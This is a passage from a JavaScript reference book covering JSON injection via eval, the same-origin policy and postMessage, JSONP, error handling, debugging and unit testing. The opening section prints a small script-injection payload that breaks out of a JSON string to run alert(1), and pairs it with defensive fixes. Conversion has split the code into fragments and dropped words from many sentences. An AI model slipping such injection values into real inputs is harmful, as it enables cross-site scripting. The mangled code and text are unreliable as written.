  Likes XSS.\"});alert(1);({\"name\":\"Alice\",\"description\":\"Likes
  XSS.
  

  

What if someone\'s description is ?
>
Seems weird, but if poorly done, the response will be:

{

\"name\"

:

\"Alice\"

,

\"description\"

:

\"Likes pie & security holes.\"

}

)

;

alert

(

1

)

;

(

{

\"name\"

:

\"Alice\"

,

\"description\"

:

\"Likes

XSS.\"

}

And this will be

eval

ed:

(

{

\"name\"

:

\"Alice\"

,

\"description\"

:

\"Likes pie & security holes.\"

}

)

;

alert

(

1

)

;

(

{

\"name\"

:

\"Alice\"

,

\"description\"

:

\"Likes

XSS.\"

}

)

If you don\'t think that\'s a problem, paste that in your console and
see what happens.
>
**Mitigation**
>
**Use JSON.parse instead of eval to get JSON.** In general, don\'t use
eval, and definitely don\'t use eval with something a user could
control. Eval [creates a new execution
context](http://dmitrysoshnikov.com/ecmascript/chapter-1-execution-contexts/),
creating a **performance hit**.

Properly escape

\"

and

\\

in user data before putting it in JSON. If you just escape the

\"

, than this will happen:

Hello

!

\\

\"});alert(1);({

Will be converted to:

\"Hello!

**\\\\**

\"

}

)

;

alert

(

1

)

;

(

{

\"

Oops. Remember to escape both the \\ and \", or just use JSON.parse.

# Chapter 96: Same Origin Policy & CrossOrigin Communication

Same-Origin policy is used by web browsers to prevent scripts to be
able to access remote content if the remote address has not the same
**origin** of the script. This prevents malicious scripts from
performing requests to other websites to obtain sensitive data.
>
The **origin** of two addresses is considered the same if both URLs
have the same *protocol*, *hostname* and *port*.

## Section 96.1: Safe cross-origin communication with messages

  
  window.postMessage()   method together with its relative      window.onmessage
                         event handler                          
  -  -

  

The can be safely used to enable cross-origin communication.

  
  postMessage()
  

  

  
  postMessage()
  

  

The method of the target window can be called to send a message to
another window, which will be able to intercept it with its onmessage
event handler, elaborate it, and, if necessary, send a response back
to the sender window using again.
>
**Example of Window communicating with a children frame**

Content of

http

:

*//main-site.com/index.html*

:

*\<!\ \... \\>*

**\<**

**iframe**

id

=

\"frame-id\"

src

=

\"http://other-site.com/index.html\"

**\>**

**\<**

**/iframe**

**\>**

**\<**

**script**

src

=

\"main_site_script.js\"

**\>**

**/script**

**\<**

**\>**

*\<!\ \... \\>*

Content of

http

:

*//other-site.com/index.html*

:

*\<!\ \... \\>*

**\<**

**script**

src

=

\"other_site_script.js\"

**\>**

**\<**

**/src**

**\>**

*\<!\ \... \\>*

Content of

main_site_script.

js

:

*// Get the \<iframe\>\'s window*

**var**

frameWindow

=

document.

getElementById

(

\'frame-id\'

)

.

contentWindow

;

*// Add a listener for a response*

window.

addEventListener

(

\'message\'

,

**function**

(

evt

)

{

*// IMPORTANT: Check the origin of the data!*

**if**

(

event.

origin

.

indexOf

(

\'http://other-site.com\'

)

==

0

)

{

*// Check the response*

console.

log

(

evt.

data

)

;

*/\* \... \*/*

}

}

)

;

*// Send a message to the frame\'s window*

frameWindow.

postMessage

(

*/\* any obj or var \*/*

,

\'\*\'

)

;

Content of

other_site_script.

js

:

window.

addEventListener

(

\'message\'

,

**function**

(

evt

)

{

*// IMPORTANT: Check the origin of the data!*

**if**

(

event.

origin

.

indexOf

(

\'http://main-site.com\'

)

==

0

)

{

*// Read and elaborate the received data*

console.

log

(

evt.

data

)

;

*/\* \... \*/*

*// Send a response back to the main window*

window.

parent

.

postMessage

(

*/\* any obj or var \*/*

,

\'\*\'

)

;

}

}

)

;

## Section 96.2: Ways to circumvent Same-Origin Policy

As far as client-side JavaScript engines are concerned (those running
inside a browser), there is no straightforward solution available for
requesting content from sources other than the current domain. (By the
way, this limitation does not exist in JavaScript-server tools such as
Node JS.)
>
However, it is (in some situations) indeed possible to retrieve data
from other sources using the following methods. Please do note that
some of them may present hacks or workarounds instead of solutions
production system should rely on.
>
**Method 1: CORS**

  
  Access
  

  

Most public APIs today allow developers to send data bidirectionally
between client and server by enabling a feature called CORS
(Cross-Origin Resource Sharing). The browser will check if a certain
HTTP header (-

  
  Control                  \-   Allow             \-   Origin
  -    

  

) is set and that the requesting site\'s domain is listed in the
header\'s value. If it is, then the

browser will allow establishing AJAX connections.
>
However, because developers cannot change other servers\' response
headers, this method can\'t always be relied on.
>
**Method 2: JSONP**
>
**JSON** with **P**adding is commonly blamed to be a workaround. It is
not the most straightforward method, but it still gets the job done.
This method takes advantage of the fact that script files can be
loaded from any domain. Still, it is crucial to mention that
requesting JavaScript code from external sources is **always** a
potential security risk and this should generally be avoided if
there\'s a better solution available.
>
The data requested using JSONP is typically JSON, which happens to fit
the syntax used for object definition in JavaScript, making this
method of transport very simple. A common way to let websites use the
external data obtained via JSONP is to wrap it inside a callback
function, which is set via a GET parameter in the URL. Once the
external script file loads, the function will be called with the data
as its first parameter.

**\<**

**script**

**\>**

function myfunc(obj){

console.log(obj.example_field);

}

**\<**

**/script**

**\>**

**\<**

**script**

src

=

\"http://example.com/api/endpoint.js?callback=myfunc\"

**\>**

**\<**

**/script**

**\>**

  
  http   :   *//example.com/api/endpoint.js?callback=myfunc*
    

  

The contents of might look like this:

myfunc

(

{

\"example_field\"

:

**true**

}

)

The function always has to be defined first, otherwise it won\'t be
defined when the external script loads.

# Chapter 97: Error Handling

## Section 97.1: Error objects

Runtime errors in JavaScript are instances of the Error object. The
Error object can also be used as-is, or as the base for user-defined
exceptions. It\'s possible to throw any type of value - for example,
strings - but you\'re strongly encouraged to use Error or one of its
derivatives to ensure that debugging information \ such as stack
traces \ is correctly preserved.
>
The first parameter to the Error constructor is the human-readable
error message. You should try to always specify a useful error message
of what went wrong, even if additional information can be found
elsewhere.

**try**

{

**throw**

**new**

Error

(

\'Useful message\'

)

;

}

**catch**

(

error

)

{

console.

log

(

\'Something went wrong! \'

\+

error.

message

)

;

}

## Section 97.2: Interaction with Promises

Version ≥ 6

Exceptions are to synchronous code what rejections are to
promise-based asynchronous code. If an exception is thrown in a
promise handler, its error will be automatically caught and used to
reject the promise instead.

Promise.

resolve

(

5

)

.

then

(

result

=\>

{

**throw**

**new**

Error

(

\"I don\'t like five\"

)

;

}

)

.

then

(

result

=\>

{

console.

info

(

\"Promise resolved: \"

\+

result

)

;

}

)

.

**catch**

(

error

=\>

{

console.

error

(

\"Promise rejected: \"

\+

error

)

;

}

)

;

Promise rejected

:

Error

:

I don

\'t like five

Version \7

The [async functions
proposal](http://tc39.github.io/ecmascript-asyncawait/)expected to
be part of ECMAScript 2017extends this in the opposite direction.
If you await a rejected promise, its error is raised as an exception:

async

**function**

main

(

)

{

**try**

{

await Promise.

reject

(

**new**

Error

(

\"Invalid something\"

)

)

;

}

**catch**

(

error

)

{

console.

log

(

\"Caught error: \"

\+

error

)

;

}

}

main

(

)

;

Caught error

:

Invalid something

## Section 97.3: Error types

There are six specific core error constructors in JavaScript:

  
  eval
  

  

**EvalError** - creates an instance representing an error that occurs
regarding the global function ().
>
**InternalError** - creates an instance representing an error that
occurs when an internal error in the
>
JavaScript engine is thrown. E.g. \"too much recursion\". (Supported
only by **Mozilla Firefox**)
>
**RangeError** - creates an instance representing an error that occurs
when a numeric variable or parameter is outside of its valid range.
>
**ReferenceError** - creates an instance representing an error that
occurs when dereferencing an invalid reference.

  
  eval
  

  

**SyntaxError** - creates an instance representing a syntax error that
occurs while parsing code in ().
>
**TypeError** - creates an instance representing an error that occurs
when a variable or parameter is not of a valid type.

  
  encodeURI                   () or           decodeURI
    

  

**URIError** - creates an instance representing an error that occurs
when () are passed invalid parameters.
>
If you are implementing error handling mechanism you can check which
kind of error you are catching from code.

**try**

{

**throw**

**new**

TypeError

(

)

;

}

**catch**

(

e

)

{

**if**

(

e

**instanceof**

Error

)

{

console.

log

(

\'instance of general Error constructor\'

)

;

}

**if**

(

e

**instanceof**

TypeError

)

{

console.

log

(

\'type error\'

)

;

}

}

In such case e will be an instance of TypeError. All error types
extend the base constructor Error, therefore it\'s also an instance of
Error.
>
Keeping that in mind shows us that checking e to be an instance of
Error is useless in most cases.

## Section 97.4: Order of operations plus advanced thoughts

Without a try catch block, undefined functions will throw errors and
stop execution:
>
undefinedFunction(\"This will not get executed\");

console.log(\"I will never run because of the uncaught error!\"); Will
throw an error and not run the second line:

*// Uncaught ReferenceError: undefinedFunction is not defined*

You need a try catch block, similar to other languages, to ensure you
catch that error so code can continue to execute:

**try**

{

undefinedFunction

(

\"This will not get executed\"

)

;

}

**catch**

(

error

)

{

console.

log

(

\"An error occurred!\"

,

error

)

;

}

**finally**

{

console.

log

(

\"The code-block has finished\"

)

;

}

console.

log

(

\"I will run because we caught the error!\"

)

;

Now, we\'ve caught the error and can be sure that our code is going to
execute

*// An error occurred! ReferenceError: undefinedFunction is not
defined(*

...

*)*

*// The code-block has finished*

*// I will run because we caught the error!*

What if an error occurs in our catch block!?

**try**

{

undefinedFunction

(

\"This will not get executed\"

)

;

}

**catch**

(

error

)

{

otherUndefinedFunction

(

\"Uh oh\... \"

)

;

console.

log

(

\"An error occurred!\"

,

error

)

;

}

**finally**

{

console.

log

(

\"The code-block has finished\"

)

;

}

console.

log

(

\"I won\'t run because of the uncaught error in the catch block!\"

)

;

We won\'t process the rest of our catch block, and execution will halt
except for the finally block.

*// The code-block has finished*

*// Uncaught ReferenceError: otherUndefinedFunction is not defined(*

...

*)*

You could always nest your try catch blocks.. but you shouldn\'t
because that will get extremely messy..

**try**

{

undefinedFunction

(

\"This will not get executed\"

)

;

}

**catch**

(

error

)

{

**try**

{

otherUndefinedFunction

(

\"Uh oh\... \"

)

;

}

**catch**

(

error2

)

{

console.

log

(

\"Too much nesting is bad for my heart and soul\...\"

)

;

}

console.

log

(

\"An error occurred!\"

,

error

)

;

}

**finally**

{

console.

log

(

\"The code-block has finished\"

)

;

}

console.

log

(

\"I will run because we caught the error!\"

)

;

Will catch all errors from the previous example and log the following:

*//Too much nesting is bad for my heart and soul\...*

*//An error occurred! ReferenceError: undefinedFunction is not defined(*

...

*)*

*//The code-block has finished*

*//I will run because we caught the error!*

So, how can we catch all errors!? For undefined variables and
functions: you can\'t.
>
Also, you shouldn\'t wrap every variable and function in a try/catch
block, because these are simple examples that will only ever occur
once until you fix them. However, for objects, functions and other
variables that you know exist, but you don\'t know whether their
properties or sub-processes or side-effects will exist, or you expect
some error states in some circumstances, you should abstract your
error handling in some sort of manner. Here is a very basic example
and implementation.
>
Without a protected way to call untrusted or exception throwing
methods:

**function**

foo

(

a

,

b

,

c

)

{

console.

log

(

a

,

b

,

c

)

;

**throw**

**new**

Error

(

\"custom error!\"

)

;

}

**try**

{

foo

(

1

,

2

,

3

)

;

}

**catch**

(

e

)

{

**try**

{

foo

(

4

,

5

,

6

)

;

}

**catch**

(

e2

)

{

console.

log

(

\"We had to nest because there\'s currently no other way\...\"

)

;

}

console.

log

(

e

)

;

}

*// 1 2 3*

*// 4 5 6*

*// We had to nest because there\'s currently no other way\...*

*// Error: custom error!(*

...

*)*

And with protection:

**function**

foo

(

a

,

b

,

c

)

{

console.

log

(

a

,

b

,

c

)

;

**throw**

**new**

Error

(

\"custom error!\"

)

;

}

**function**

protectedFunction

(

fn

,

\...

args

)

{

**try**

{

fn.

apply

(

**this**

,

args

)

;

}

**catch**

(

e

)

{

console.

log

(

\"caught error: \"

\+

e\.

name

\+

\" -\\"

\+

e\.

message

)

;

}

}

protectedFunction

(

foo

,

1

,

2

,

3

)

;

protectedFunction

(

foo

,

4

,

5

,

6

)

;

*// 1 2 3*

*// caught error: Error -\custom error!*

*// 4 5 6*

*// caught error: Error -\custom error!*

We catch errors and still process all the expected code, though with a
somewhat different syntax. Either way will work, but as you build more
advanced applications you will want to start thinking about ways to
abstract your error handling.

# Chapter 98: Global error handling in browsers

**Parameter Details**

Some browsers will call the event handler with just one argument, an
Event object. However,
>
eventOrMessage other browsers, especially the older ones and older
mobile ones will supply a String message as a first argument.
>
If a handler is called with more than 1 argument, the second argument
usually is an URL of a url
>
JavaScript file that is the source of the problem.
>
If a handler is called with more than 1 argument, the third argument
is a line number inside the lineNumber
>
JavaScript source file.
>
If a handler is called with more than 1 argument, the fourth argument
is the column number colNumber inside the JavaScript source file.
>
If a handler is called with more than 1 argument, the fifth argument
is sometimes an Error object error describing the problem.

## Section 98.1: Handling window.onerror to report all errors back to the server-side

  
  window.onerror
  

  

The following example listens to event and uses an image beacon
technique to send the information through the GET parameters of an
URL.
>
**var** hasLoggedOnce = **false**;
>
*// Some browsers (at least Firefox) don\'t report line and column
numbers*
>
*// when event is handled through window.addEventListener(\'error\',
fn). That\'s why // a more reliable approach is to set an event
listener via direct assignment.* window.onerror = **function**
(eventOrMessage, url, lineNumber, colNumber, error) { **if**
(hasLoggedOnce \|\| !eventOrMessage) {
>
*// It does not make sense to report an error if:*
>
*// 1. another one has already been reported \ the page has an
invalid state and may produce way too many errors.*
>
*// 2. the provided information does not make sense (!eventOrMessage
\ the browser didn\'t supply information for some reason.)*
**return**; } hasLoggedOnce = **true**; **if** (**typeof**
eventOrMessage !== \'string\') { error = eventOrMessage.error; url =
eventOrMessage.filename \|\| eventOrMessage.fileName; lineNumber =
eventOrMessage.lineno \|\| eventOrMessage.lineNumber; colNumber =
eventOrMessage.colno \|\| eventOrMessage.columnNumber; eventOrMessage
= eventOrMessage.message \|\| eventOrMessage.name \|\| error.message
\|\| error.name; } **if** (error && error.stack) { eventOrMessage =
\[eventOrMessage, \'; Stack: \', error.stack, \'.\'\].join(\'\'); }
**var** jsFile = (/\[\^*/\]+\\.js/i*.exec(url \|\| \'\') \|\|
\[\])\[0\] \|\| \'inlineScriptOrDynamicEvalCode\', stack =
\[eventOrMessage, \' Occurred in \', jsFile, \':\', lineNumber \|\|
\'?\', \':\', colNumber \|\| \'?\'\].join(\'\');
>
*// shortening the message a bit so that it is more likely to fit into
browser\'s URL length limit*
>
*(which is 2,083 in some browsers)* stack =
stack.replace(/https?\\:\\/\\/\[\^*/\]+/gi*, \'\');
>
*// calling the server-side handler which should probably register the
error in a database or a log file*

**new**

Image

(

)

.

src

=

\'/exampleErrorReporting?stack=\'

\+

encodeURIComponent

(

stack

)

;

*// window.DEBUG_ENVIRONMENT a configurable property that may be set to
true somewhere else for*

*debugging and testing purposes.*

**if**

(

window.

DEBUG_ENVIRONMENT

)

{

alert

(

\'Client-side script failed: \'

\+

stack

)

;

}

}

# Chapter 99: Debugging

## Section 99.1: Interactive interpreter variables

Note that these only work in the developer tools of certain browsers.
>
\$\_ gives you the value of whatever expression was evaluated last.

\"foo\"

*// \"foo\"*

\$\_

*// \"foo\"*

  -
  **\<div** id                           =     \"foo\"
   - 

  -

\$0 refers to the DOM element currently selected in the Inspector. So
if **\>** is highlighted:

\$0

*// \
*

\$0.

getAttribute

(

\'id\'

)

*// \"foo\"*

\$1 refers to the element previously selected, \$2 to the one selected
before that, and so forth for \$3 and \$4.

  
  \$\$         (      selector
    -

  

To get a collection of elements matching a CSS selector, use ). This
is essentially a shortcut for

document.querySelectorAll.

**var** images = \$\$(\'img\'); *// Returns an array or a nodelist of
all matching elements*

**\$\_ \$()**¹ **\$\$() \$0 \$1 \$2 \$3 \$4**

Opera 15+ 11+ 11+ 11+ 11+ 15+ 15+ 15+

Chrome 22+ ✔ ✔ ✔ ✔ ✔ ✔ ✔

Firefox 39+ ✔ ✔ ✔ × × × ×

IE 11 11 11 11 11 11 11 11

Safari 6.1+ 4+ 4+ 4+ 4+ 4+ 4+ 4+

  -
  document.getElementById            or   document.querySelector
    -

  -

¹ alias to either

## Section 99.2: Breakpoints

Breakpoints pause your program once execution reaches a certain point.
You can then step through the program line by line, observing its
execution and inspecting the contents of your variables.
>
There are three ways of creating breakpoints.

  
  debugger
  

  

1.  From code, using the ; statement.

2.  From the browser, using the Developer Tools.

3.  From an Integrated Development Environment (IDE).

**Debugger Statement**

  
  debugger
  

  

You can place a ; statement anywhere in your JavaScript code. Once the
JS interpreter reaches that line, it will stop the script execution,
allowing you to inspect variables and step through your code.
>
**Developer Tools**
>
The second option is to add a breakpoint directly into the code from
the browser\'s Developer Tools.
>
**Opening the Developer Tools**
>
**Chrome or Firefox**

1.  Press F12 to open Developer Tools

2.  Switch to the Sources tab (Chrome) or Debugger tab (Firefox)

3.  Press Ctrl + P and type the name of your JavaScript file

  
  Enter
  

  

4.  Press to open it.

**Internet Explorer or Edge**

1.  Press F12 to open Developer Tools

2.  Switch to the Debugger tab.

3.  Use the folder icon near the upper-left corner of the window to open
    a file-selection pane; you can find your JavaScript file there.

**Safari**

1.  Press Command + Option + C to open Developer Tools

2.  Switch to the Resources tab

3.  Open the \"Scripts\" folder in the left-side panel

4.  Select your JavaScript file.

**Adding a breakpoint from the Developer Tools**
>
Once you have your JavaScript file open in Developer Tools, you can
click a line number to place a breakpoint. The next time your program
runs, it will pause there.
>
**Note about Minified Sources:** If your source is minified, you can
Pretty Print it (convert to readable format). In Chrome, this is done
by clicking on the {} button in the bottom right corner of the source
code viewer.
>
**IDEs**
>
**Visual Studio Code (VSC)**
>
VSC has [built-in
support](https://code.visualstudio.com/docs/editor/debugging) for
debugging JavaScript.

1.  Click the Debug button on the left or Ctrl + Shift + D

  
  launch.json
  

  

2.  If not already done, create a launch configuration file () by
    pressing the gear icon.

3.  Run the code from VSC by pressing the green play button or hit F5 .

**Adding a breakpoint in VSC**
>
Click next to the line number in your JavaScript source file to add a
breakpoint (it will be marked red). To delete the breakpoint, click
the red circle again.
>
**Tip:** You can also utilise the conditional breakpoints in
browser\'s dev tools. These help in skipping unnecessary breaks in
execution. Example scenario: you want to examine a variable in a loop
exactly at 5th iteration.

{width="4.288194444444445in"
height="0.8736111111111111in"}

## Section 99.3: Using setters and getters to find what changed a property

Let\'s say you have an object like this:

**var**

myObject

=

{

name

:

\'Peter\'

}

  
  myObject.name
  

  

Later in your code, you try to access and you get **George** instead
of **Peter**. You start wondering who changed it and where exactly it
was changed. There is a way to place a debugger (or something else) on
every set

  -
  myObject.name                        =   \'something\'
  -  

  -

(every time someone does ):

**var**

myObject

=

{

\_name

:

\'Peter\'

,

**set**

name

(

name

)

{

debugger

;

**this**

.\_name

=

name

}

,

**get**

name

(

)

{

**return**

**this**

.\_name

}

}

Note that we renamed name to \_name and we are going to define a
setter and a getter for name.

  
  **set**   is the setter. That is a sweet spot where you can   console.trace
  name      place debugger,                                     
   - 

  

  
  **get** name
  

  

(), or anything else you need for debugging. The setter will set the
value for name in \_name. The getter (the part) will read the value
from there. Now we have a fully functional object with debugging
functionality.
>
Most of the time, though, the object that gets changed is not under
our control. Fortunately, we can define setters and getters on
**existing** objects to debug them.

*// First, save the name to \_name, because we are going to use name for
setter/getter*

otherObject.\_name

=

otherObject.

name

;

*// Create setter and getter*

Object

.

defineProperty

(

otherObject

,

\"name\"

,

{

**set**

:

**function**

(

name

)

{

debugger

;

**this**

.\_name

=

name

}

,

**get**

:

**function**

(

)

{

**return**

**this**

.\_name

}

}

)

;

Check out
[setters](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/set)
and
[getters](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/get)
at MDN for more information.
>
Browser support for setters/getters:
>
**Chrome Firefox IE Opera Safari Mobile**

Version 1 2.0 9 9.5 3 all

## Section 99.4: Using the console

In many environments, you have access to a global console object that
contains some basic methods for communicating with standard output
devices. Most commonly, this will be the browser\'s JavaScript console
(see
[Chrome](https://developers.google.com/web/tools/chrome-devtools/debug/console/?utm_source=dcc),
[Firefox](https://developer.mozilla.org/en-US/docs/Tools/Browser_Console),
[Safari](https://developer.apple.com/safari/tools/), and
[Edge](https://developer.microsoft.com/en-us/microsoft-edge/platform/documentation/f12-devtools-guide/console/)
for more information).

*// At its simplest, you can \'log\' a string*

console.

log

(

\"Hello, World!\"

)

;

*// You can also log any number of comma-separated values*

console.

log

(

\"Hello\"

,

\"World!\"

)

;

*// You can also use string substitution*

console.

log

(

\"%s %s\"

,

\"Hello\"

,

\"World!\"

)

;

*// You can also log any variable that exist in the same scope*

**var**

arr

=

\[

1

,

2

,

3

\]

;

console.

log

(

arr.

length

,

**this**

)

;

You can use different console methods to highlight your output in
different ways. Other methods are also useful for more advanced
debugging.
>
For more documentation, information on compatibility, and instructions
on how to open your browser\'s console, see the Console topic.

  
  console.log
  

  

Note: if you need to support IE9, either remove or wrap its calls as
follows, because console is undefined until the Developer Tools are
opened:

**if**

(

console

)

{

*//IE9 workaround*

console.

log

(

\"test\"

)

;

}

## Section 99.5: Automatically pausing execution

In Google Chrome, you can pause execution without needing to place
breakpoints.
>
{width="0.225in" height="0.225in"}
**Pause on Exception:** While this button is toggled on, if your
program hits an unhandled exception, the program will pause as if it
had hit a breakpoint. The button can be found near Execution Controls
and is useful for locating errors.
>
You can also pause execution when an HTML tag (DOM node) is modified,
or when its attributes are changed. To do that, right click the DOM
node on the Elements tab and select \"Break on\...\".

## Section 99.6: Elements inspector

Clicking the
{width="0.21597222222222223in"
height="0.21597222222222223in"} *Select an element in the page to
inspect it* button in the upper left corner of the Elements tab in
Chrome or Inspector tab in Firefox, available from Developer Tools,
and then clicking on an element of the page highlights the element and
assigns it to the \$0 variable.
>
Elements inspector can be used in variety of ways, for example:

1.  You can check if your JS is manipulating DOM the way you expect it
    to,

2.  You can more easily debug your CSS, when seeing which rules affect
    the element (*Styles* tab in Chrome)

3.  You can play around with CSS and HTML without reloading the page.

Also, Chrome remembers last 5 selections in the Elements tab. \$0 is
the current selection, while \$1 is the previous selection. You can go
up to \$4. That way you can easily debug multiple nodes without
constantly switching selection to them.

You can read more at [Google
Developers](https://developers.google.com/web/tools/chrome-devtools/debug/command-line/command-line-reference#section-1).

## Section 99.7: Break when a function is called

For named (non-anonymous) functions, you can break when the function
is executed.

debug

(

functionName

)

;

The next time functionName function runs, the debugger will stop on
its first line.

## Section 99.8: Stepping through code

Once you\'ve paused execution on a breakpoint, you may want to follow
execution line-by-line to observe what happens. Open your browser\'s
Developer Tools and look for the Execution Control icons. (This
example uses the icons in Google Chrome, but they\'ll be similar in
other browsers.)
>
{width="0.21597222222222223in"
height="0.19791666666666666in"} **Resume:** Unpause execution.
Shorcut: F8 (Chrome, Firefox)

  
  F6
  

  

{width="0.2611111111111111in"
height="0.18888888888888888in"} **Step Over:** Run the next line of
code. If that line contains a function call, run the whole function
and move to the next line, rather than jumping to wherever the
function is defined. Shortcut : F10 (Chrome, Firefox, IE/Edge),
(Safari)
>
{width="0.19791666666666666in"
height="0.20694444444444443in"} **Step Into:** Run the next line of
code. If that line contains a function call, jump into the function
and pause there. Shortcut : F11 (Chrome, Firefox, IE/Edge), F7
(Safari)
>
{width="0.19791666666666666in"
height="0.20694444444444443in"} **Step Out:** Run the rest of the
current function, jump back to where the function was called from, and
pause at the next statement there. Shortcut : Shift + F11 (Chrome,
Firefox, IE/Edge), F8 (Safari)
>
Use these in conjunction with the **Call Stack**, which will tell you
which function you\'re currently inside of, which function called that
function, and so forth.
>
See Google\'s guide on [\"How to Step Through the
Code\"](https://developers.google.com/web/tools/chrome-devtools/debug/breakpoints/step-code?hl=en)
for more details and advice.
>
Links to browser shortcut key documentation:
>
[Chrome](https://developers.google.com/web/tools/chrome-devtools/iterate/inspect-styles/shortcuts?hl=en#keyboard-shortcuts-by-panel)
>
[Firefox](https://developer.mozilla.org/en-US/docs/Tools/Debugger/Keyboard_shortcuts)
>
[IE](https://msdn.microsoft.com/en-us/library/dd565630(v=vs.85).aspx#debugMode)
>
[Edge](https://developer.microsoft.com/en-us/microsoft-edge/platform/documentation/f12-devtools-guide/developer-tools-keyboard-shortcuts/)
>
[Safari](https://developer.apple.com/library/mac/documentation/AppleApplications/Conceptual/Safari_Developer_Guide/KeyboardShortcuts/KeyboardShortcuts.html)

# Chapter 100: Unit Testing JavaScript

## Section 100.1: Unit Testing Promises with Mocha, Sinon, Chai and Proxyquire

Here we have a simple class to be tested that returns a Promise based
on the results of an external ResponseProcessor that takes time to
execute.
>
For simplicity we\'ll assume that the processResponse method won\'t
ever fail.

import

{

processResponse

}

from

\'../utils/response_processor\'

;

**const**

ping

=

(

)

=\>

{

**return**

**new**

Promise

(

(

resolve

,

\_reject

)

=\>

{

**const**

response

=

processResponse

(

data

)

;

resolve

(

response

)

;

}

)

;

}

module.

exports

=

ping

;

To test this we can leverage the following tools.

1.  [mocha](https://mochajs.org/)

2.  [chai](http://chaijs.com/)

3.  [sinon](http://sinonjs.org/)

4.  [proxyquire](https://github.com/thlorenz/proxyquire)

  
  [chai](https://github.com/domenic/chai-as-promised)   [-](https://github.com/domenic/chai-as-promised)   [as](https://github.com/domenic/chai-as-promised)   [-](https://github.com/domenic/chai-as-promised)   [promised](https://github.com/domenic/chai-as-promised)
  -  -  -

  

5\.

  
  package.json
  

  

I use the following test script in my file.
>
\"test\": \"NODE_ENV=test mocha \compilers js:babel-core/register
\require
>
./test/unit/test_helper.js \recursive test/\*\*/\*\_spec.js\"
>
This allows me to use es6 syntax. It references a test_helper that
will look like

import

chai from

\'chai\'

;

import

sinon from

\'sinon\'

;

import

sinonChai from

\'sinon-chai\'

;

import

chaiAsPromised from

\'chai-as-promised\'

;

import

sinonStubPromise from

\'sinon-stub-promise\'

;

chai.

use

(

sinonChai

)

;

chai.

use

(

chaiAsPromised

)

;

sinonStubPromise

(

sinon

)

;

  -
  chai              \-   as       \-   promised
      

  -

  
  ping
  

  

Proxyquire allows us to inject our own stub in the place of the
external ResponseProcessor. We can then use sinon to spy on that
stub\'s methods. We use the extensions to chai that injects to check
that the () method\'s promise is fullfilled, and that it eventually
returns the required response.

import

{

expect

}

from

\'chai\'

;

import

sinon from

\'sinon\'

;

import

proxyquire from

\'proxyquire\'

;

**let**

formattingStub

=

{

wrapResponse

:

(

)

=\>

{

}

}

**let**

ping

=

proxyquire

(

\'../../../src/api/ping\'

,

{

\'../utils/formatting\'

:

formattingStub

}

)

;

describe

(

\'ping\'

,

(

)

=\>

{

**let**

wrapResponseSpy

,

pingResult

;

**const**

response

=

\'some response\'

;

beforeEach

(

(

)

=\>

{

wrapResponseSpy

=

sinon.

stub

(

formattingStub

,

\'wrapResponse\'

)

.

returns

(

response

)

;

pingResult

=

ping

(

)

;

}

)

afterEach

(

(

)

=\>

{

formattingStub.

wrapResponse

.

restore

(

)

;

}

)

it

(

\'returns a fullfilled promise\'

,

(

)

=\>

{

expect

(

pingResult

)

.

to

.

be

.

fulfilled

;

}

)

it

(

\'eventually returns the correct response\'

,

(

)

=\>

{

expect

(

pingResult

)

.

to

.

eventually

.

equal

(

response

)

;

}

)

}

)

;

Now instead let\'s assume you wish to test something that uses the
response from ping.

import

{

ping

}

from

\'./ping\'

;

**const**

pingWrapper

=

(

)

=\>

{

ping.

then

(

(

response

)

=\>

{

*// do something with the response*

}

)

;

}

module.

exports

=

pingWrapper

;

To test the

pingWrapper

we leverage

1.  [sinon](http://sinonjs.org/)

2.  [proxyquire](https://github.com/thlorenz/proxyquire)

  -
  [sinon](https://github.com/substantial/sinon-stub-promise)   [-](https://github.com/substantial/sinon-stub-promise)   [stub](https://github.com/substantial/sinon-stub-promise)   [-](https://github.com/substantial/sinon-stub-promise)   [promise](https://github.com/substantial/sinon-stub-promise)
    -  

  -

3\.

  -
  sinon                               \-      stub
   - 

  -

As before, Proxyquire allows us to inject our own stub in the place of
the external dependency, in this case the ping method we tested
previously. We can then use sinon to spy on that stub\'s methods and
leverage promise to allow us to returnsPromise. This promise can then
be resolved or rejected as we wish in the test, in order to test the
wrapper\'s response to that.

import

{

expect

}

from

\'chai\'

;

import

sinon from

\'sinon\'

;

import

proxyquire from

\'proxyquire\'

;

**let**

pingStub

=

{

ping

:

(

)

=\>

{

}

}

;

**let**

pingWrapper

=

proxyquire

(

\'../src/pingWrapper\'

,

{

\'./ping\'

:

pingStub

}

)

;

describe

(

\'pingWrapper\'

,

(

)

=\>

{

**let**

pingSpy

;

**const**

response

=

\'some response\'

;

beforeEach

(

(

)

=\>

{

pingSpy

=

sinon.

stub

(

pingStub

,

\'ping\'

)

.

returnsPromise

(

)

;

pingSpy.

resolves

(

response

)

;

pingWrapper

(

)

;

}

)

;

afterEach

(

(

)

=\>

{

pingStub.

wrapResponse

.

restore

(

)

;

}

)

;

it

(

\'wraps the ping\'

,

(

)

=\>

{

expect

(

pingSpy

)

.

to

.

have

.

been

.

calledWith

(

response

)

;

}

)

;

}

)

;

## Section 100.2: Basic Assertion

At its most basic level, Unit Testing in any language provides
assertions against some known or expected output.

**function**

assert

(

outcome

,

description

)

{

**var**

passFail

=

outcome

?

\'pass\'

:

\'fail\'

;

console.

log

(

passFail

,

\': \'

,

description

)

;

**return**

outcome

;

}

;

The popular assertion method above shows us one quick and easy way to
assert a value in most web browsers and interpreters like Node.js with
virtually any version of ECMAScript.
>
A good unit test is designed to test a discreet unit of code; usually
a function.

**function**

add

(

num1

,

num2

)

{

**return**

num1

\+

num2

;

}

**var**

result

=

add

(

5

,

20

)

;

assert

(

result

==

24

,

\'add(5, 20) should return 25\...\'

)

;

In the example above, the return value from the function

add

(

x

,

y

)

or

5

\+

20

is clearly

25

, so our assertion of

24

should fail, and the assert method will log a \"fail\" line.
>
If we simply modify our expected assertion outcome, the test will
succeed and the resulting output would look something like this.

assert

(

result

==

25

,

\'add(5, 20) should return 25\...\'

)

;

console output

:

\>

pass

:

should

**return**

25

\...

This simple assertion can assure that in many different cases, your
\"add\" function will always return the expected result and requires
no additional frameworks or libraries to work.

  
  **var** result                                   =    add
  -  

  

A more rigorous set of assertions would look like this (using (x,y)
for each assertion):

assert( result == 0, \'add(0, 0) should return 0\...\'); assert( result
== -1, \'add(0, -1) should return -1\...\'); assert( result == 1,
\'add(0, 1) should return 1\...\'); And console output would be this:

\>

pass

:

should

**return**

0

\...

\>

pass

:

should

**return**

\-

1

\...

\>

pass

:

should

**return**

1

\...
